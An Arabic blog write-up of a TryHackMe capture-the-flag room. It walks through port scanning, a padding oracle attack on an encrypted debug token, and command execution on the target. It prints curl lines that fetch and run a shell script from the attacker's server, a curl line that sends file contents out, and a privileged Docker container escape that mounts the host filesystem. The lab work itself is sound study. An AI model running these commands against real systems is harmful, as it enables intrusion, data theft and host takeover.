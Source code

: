 ```yaml
---
title: حل غرفة newyorkflankees
date: 2024-08-08
description: تصعيد الصلاحيات مرتين!
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1719465307426
tags: ["CTF","THM"]
categories: "CTFs"
---
```

# المقدمة

بسم الله الرحمن الرحيم، راح أشارككم طريقة تفكيري وحلي لغرفة new york flankees الموجودة على موقع [tryhackme](https://tryhackme.com). ملاحظة مهمة: إذا كنت تبغى تستفيد وماتضيع وقتك على الفاضي، لاتشوف حل أي تحدي إلا إذا بذلت كامل جهدك في حله، ولا تشوف حل التحدي بالكامل، لكن شوف فقط الجزئية اللي علقت عندها.

## فحص المداخل

طبيعي في أي تحدي CTF أول شيء تسويه إنك تفحص المداخل عشان تاخذ نظرة عامة عن الصندوق (virtual mechine)، راح استخدم rustscan عشانه سريع، غالبا ماراح تستخدمه على أهداف حقيقية عشان ماتبلع باند 

```bash
╭─ ඞ ~/thm ············································································
╰─λ rustscan -a 10.10.233.199
Open 10.10.233.199:22
Open 10.10.233.199:8080
```

ممتاز!، نلاحظ عندنا مدخلين (ssh-22,http-8080) خلينا ندخل موقع الويب ونشوف إيش راح نحصل.

## فحص الموقع

### الصفحة الرئيسية Blog

أول ما نخش الموقع راح نلاحظ كذا حاجة
![img](assets/img/Screenshot%20from%202024-07-16%2020-52-11.png)
في الأعلى راح نشوف ثلاث أزرار، خلينا نشوف السورس كود


![img](assets/img/Screenshot%20from%202024-07-16%2021-51-30.png)

إذا أنت مافهمت الكود الموجود هنا، أنصحك تاخذ كورس جافاسكربت أو كورس تطوير مواقع... راح يساعدك كثير صدقني. عموما، الكود الموجود أسفل الصفحة الرئيسية قاعد يتأكد ما إذا كان الشخص اللي يشوف الصفحة عنده كوكيز اسمها loggedin، إذا كان عنده هذي الكوكيز راح يتغير النص اللي في الزر في الأعلى يمين إلى DEBUG وراح يوجهك على صفحة ثانية exec.html أما إذا ماكانت الكوكيز موجودة راح يوجهك على صفحة تسجيل الدخول.

### الصفحة التجريبية stefan test

خلينا نروح على السورس كود على طول،
![img](assets/img/Screenshot%20from%202024-07-16%2022-05-27.png)

هنا عندنا شي مثير، الكود ذا راح يرسل طلب للنقطة api/debug/xxxx/ مكان الإكسات نلاحظ عندنا نص طويل، إذا قرأنا التعليقات اللي كاتبها راح نعرف أن هذا النص عبارة عن شفرة، السؤال هو إيش هي هذي الشفرة وكيف نفكها؟ تلاحظ من التعليق في سطر 69 أن هذا النص حمولة AES/CBC/PKCS إذا بحثت في قوقل ممكن يعدي عليك اسم oracle padding attack وهذا يا عزيزي ما تحتاج أن تبحث عنه وتفهمه عشان تفك التشفير، في الصفحة الرئيسية تشوف تلميح من الصورة (مكتوب فيها oracel)، هل فيه سكربتات جاهزة تأتمت (automate) هذه الثغرة؟.

### مابعد فك التشفير

بعد مايقارب 6 ساعات من البحث قدرت أفك التشفير، أولا: الحمولة المشفرة عبارة عن اسم مستخدم وكلمة سر. ثانيا: محتويات الحمولة هي جواب السؤال الأول. ملاحظة- فك الشفرة راح ياخذ وقت، لأنك راح ترسل 256 طلب للسيرفر عشان بايت واحد

![img](assets/img/Screenshot%20from%202024-07-17%2015-56-44.png)

### التحكم في السيرفر

بعد ما تطلع كلمة السر واسم المستخدم، سجل دخول وراح تاخذ العلم الأول وراح تحصل حقل يمديك من خلاله تنفذ أوامر على السيرفر

![img](assets/img/Screenshot from 2024-07-17 18-02-55.png)

أنا قعدت تقريبا 6 ساعات ثانية أحاول أحصل reverse shell لكن الطرق التقليدية ما نفعت، لاحظت إني أقدر أرسل طلب من الهدف إلى السيرفر حقي من خلال curl.

```bash
curl http://my_server/
```

حاولت إني أجرب الطرق التقليدية باستعمال  curl لكن أيضا بلا جدوى

```bash
curl http://my_server/shell.sh | bash
```
جاءت في بالي فكرة رهيبة، وهي إني أستخرج معلومات من السيرفر وأرسلها على السيرفر حقي باستخدام curl لكن أيضا بلا جدوى والسبب هو إني ما أعرف اسم أي ملف ، سوي ملف تجريبي وجرب عليه الأمر التالي عشان تفهم فكرتي

```bash
cat secret.txt | xargs -I input curl http://my_server/input
```
```bash
╭─ ඞ ~/thm ···························································································
╰─λ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.29.36 - - [17/Jul/2024 23:42:38] code 404, message File not found
10.6.29.36 - - [17/Jul/2024 23:42:38] "GET /you_see?,secret HTTP/1.1" 404 -

```
لكن بلا جدوى.
بعد تعديلات كثيرة، طلع الحل تافه جدا، السيرفر لسبب ما، مايستقبل الأنبوب | أو مايعتبره موجود، فالطريقة عشان تتفادى هذا العائق هي إنك تخزن الملف حق الحمولة في السيرفر بعدين تنفذ أمر باش على الحمولة

```bash
curl http://my_server/shell.sh --output (DO NOT USE '>') shell.sh
```
```bash
bash shell.sh
```

### العلم الثالث والرابع

الآن بعد ما صار عندنا "صدفة" في السيرفر، راح نبدأ رحلة البحث عن العلمين الأخيرة, ونلاحظ إننا الروت!

```bash
root@02e849f307cc:/# whoami
root
```
بما إننا في docker container راح نجرب الأمر التالي ونشوف النتيجة
```bash
root@02e849f307cc:/# env
HOSTNAME=02e849f307cc
JAVA_HOME=/usr/local/openjdk-11
PWD=/
CTF_USERNAME=XXXXXXX
HOME=/root
LANG=C.UTF-8
CTF_DOCKER_FLAG=XXXXXXXX العلم الثالث
CTF_RESOURCES=/app/src/resources
CTF_ENCRYPTION_IV=XXXXXXXXX
SHLVL=2
CTF_ENCRYPTION_KEY=XXXXXXXXXX
PATH=/usr/local/openjdk-11/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CTF_ADMIN_PANEL_FLAG=XXXXXXXXXX
CTF_PASSWORD=XXXXXXXXXX
JAVA_VERSION=11.0.16
_=/usr/bin/env
```
ممتاز، باقي العلم الرابع وأروح أرقد، الصراحة ماعندي خلفية قوية عن "حاويات" دوكر لكن اللي أعرفه أن في بعض الأحيان يمديك تخرج منها، وهذا المطلوب منك يا عزيزي. خلينا نشوف إذا فيه حاويات ثانية
```bash
root@02e849f307cc:/# docker ps
CONTAINER ID   IMAGE                    COMMAND                  CREATED          STATUS          PORTS                                       NAMES
02e849f307cc   padding-oracle-app_web   "java -jar /app/ktor…"   2 months ago     Up 51 minutes   0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   padding-oracle-app_web_1
```
مدام قدرنا نشوف الحاويات معناته يمدينا نسوي حاوية، إيش رأيك نسوي حاوية بكامل الصلاحيات؟. لكن قبل ما نسوي حاوية جديدة، خلينا نشوف إيش الصور المحملة عندنا (راح نستخدم الصور المحلية عشان نسوي حاوية جديدة عشان مافي نت في السيرفر).

```bash
root@02e849f307cc:/# docker images
REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
<none>                   <none>    4187efabd0a5   2 months ago    704MB
gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
openjdk                  11        47a932d998b7   23 months ago   654MB
```
الآن نسوي الحاوية حقتنا.
```bash
docker -d -v /:/host --name escape --privileged --cap-add=ALL --pid=host --userns=host gradle:7-jdk11 sleep 3600
```
بعد ما سوينا الحاوية خلينا نشبك عليها ونجيب العلم الرابع عشان برقد.
```bash
docker exec -i (DO NOT USE -it) escape bash 
```
راح تلاحظ أن التيرمينال ماتطبع لك شي في البداية، معليك. الآن يا حبيبي مهمتك تطلع العلم اللي اسمه flag.txt أنصحك تشوف [هذا الفيديو](https://youtu.be/ZbHVRoWEwA8?si=v-xLFitDKETPSWqY) عشان تعرف كيف تطلعه.

# الخاتمة
الحمد لله على منه وإحسانه، الصراحة استمعت جدا وأنا أحل هذا التحدي وقعدت فوق ال 10 ساعات فيه مع إنه بعد ما حليته أحسه بسيط، إذا كان عندك اقتراح أو تعديل تواصل معي على [تويتر](https://x.com/VulnerK0) سويته جديد عشان المدونة ذي.<br> سبحان ربك رب العزة عما يصفون، وسلام على المرسلين، والحمد لله رب العالمين.